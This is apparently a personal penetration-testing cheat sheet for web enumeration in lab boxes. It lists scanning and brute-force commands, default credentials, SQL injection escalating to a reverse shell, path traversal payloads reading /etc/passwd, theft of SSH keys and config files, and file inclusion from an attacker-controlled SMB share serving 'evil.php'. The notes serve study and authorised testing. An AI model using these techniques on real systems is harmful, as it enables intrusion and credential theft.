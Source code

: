# HTTP and HTTPS

usually the likely attack vector (But can be a rabbit hole as well so dont fall in love with it!)

- Might sound silly but might want to try putting https instead of http if there is nothing going on.

- check the source code, robots.txt. can also run inspect to see whats going on in the background

- If GET doesn't work, why not POST! (see Nickel box on PG)

- if need be, fire up burp suite or Inspect the page

- try to find the CN (which you can use dig for)

- Do basic website scans using both whatweb and nikto

```bash
sudo nikto --host <target>:<port> 

# if basic auth

-id <user>:<password>
```

- Google the CMS, web services for potential easy wins exploit (use searchsploit or exploit-db or google as last resort)
	- Apache 2.4.49 - vuln to dir traversal and RCE

some websites dont work properly if you use the ip address. This may be because the hostname is being referenced in the webpage instead of the IP Address. Consider adding an entry to /etc/hosts if you find anything that looks like a hostname.


```bash
sudo nano /etc/hosts

# add an entry to the last line
<ip> <domain>

```
Manual Enumeration (go to website and click around):

	- Check for usernames, potential domains
	- Check for places where you can upload files
	- check for places where you can provide user input
		- try SQL ' or "
		- if it works, throw xp_cmdshell and try to get a reverse shell (if it is windows)
		- if not, enumerate the table
	- If login pages, try default credentials (try with uppercase as well!)
		- admin:admin
		- admin:password
		- root:root
		- root:toor
		- username:username ( if you find a username)
- Auto Enum:
	- if wordpress, run wpscan. #wpscan
	- if xmlrpc is enabled, use this https://github.com/relarizky/wpxploit
	- Always check out the wp-contents/uploads folder. Might have interesting things inside

```bash
# make sure you get the token from wpscan website!
wpscan --url http://<domain> --enumerate ap --plugins-detection aggressive -o websrv1/wpscan

# if https, add the --disable-tls-checks
# to enum users, add --enumerate u
# if you have a user, add --usernames <username> to brute force, -U <user list>, --passwords <wordlist like rockyou>
```

- Always dirbust and nikto
- The choice of wordlist can be important. What I find useful are:
	- Seclists's big.txt, medium directory (with this you should put in the extension flags as well or you may miss things!)
	- Seclists raft medium directory, files
```bash

nikto -h <ip> -C all

gobuster dir -u http://<target ip> -w <use the seclists dir list> -t 50 --no-error -x config, txt, pdf

# if https. -k to skip SSL errors

gobuster dir -u https://<target ip> -w <seclist> -t 50 -k --no-error

# if page is running things like php or aspx, add -x flag. you an often find things like admin.php

gobuster dir -u http://<target ip> -w <use the seclists dir list> -t 50 --no-error -x php, aspx

# also 

# if any interesting directories, further gobust those

# feroxbuster is pretty cool as well!

feroxbuster -u <target> -x txt,pdf,conf,php,aspx (edit the extensions as needed)

```
- if you find any .git folders, download them!

```bash

# download .git repo

wget -r http://<ip>/.git 

# note the above may not work if you get 403. Instead use git-dumper!

git-dumper http://<ip>/.git <output folder>

git diff

git log

# investigate interesting logs by using

git show 'commit id'
```
- try looking for these sensitive config files:
	- Apache - config.php (may need to path traverse to /etc/apache2), phpmyinfo (reveals interesting information)
		- run dirbuster and see if you can find phpinfo. Identify the root of the directory!
	- wp - wp-config.php
	- if you have path traverse or rce, try looking for rsa keys. You may need to check what kinds of keys are there as it is not always id_rsa; you can do this by checking out the /home/target user/.ssh/authorized_keys file. ecdsa keys have a diff name from id_rsa (id_ecdsa) 
- if you see things like parameters in the url, you should try path traversal

```bash

domain.com/abc/?news=a

# try

?news=../../../../../../etc/passwd

?news=C:/Windows/System32/drivers/etc/hosts

# check for File inclusion esp if it is a Windows MAchine!

start up a impacket smbserver on your attacker

?page=//<attacker ip>/<share>/anything.txt

capture the NTLMv2 hash

# if hash cannot crack

then host a malicious php file and then smbserver again and then

?page=//<attacker ip>/<share>/evil.php

```
once you find some way to upload stuff, see if you can upload php or aspx files from your prepared Tools folders